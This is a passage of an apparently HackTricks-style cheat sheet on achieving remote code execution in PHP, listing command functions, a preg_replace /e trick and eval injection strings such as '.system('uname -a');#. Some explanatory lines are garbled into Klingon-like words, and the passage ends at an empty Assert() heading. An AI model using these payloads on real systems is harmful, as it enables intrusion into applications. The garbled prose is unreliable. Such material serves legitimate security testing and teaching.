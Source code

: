 ![](<../../../.gitbook/assets/image (465).png>)

## Code execution

**system("ls");**\
**\`ls\`;**\
**shell\_exec("ls");**

[Check this for more useful PHP functions](php-useful-functions-disable\_functions-open\_basedir-bypass/)

### **RCE via** **preg\_replace()**
```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```
**replace** argument vItlh **code** jatlh vItlhutlh.\
**preg\_replace** vItlhutlh **option** **deprecated** **PHP 5.5.0**.

### **RCE via Eval()**
```
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```
### **RCE via Assert()**
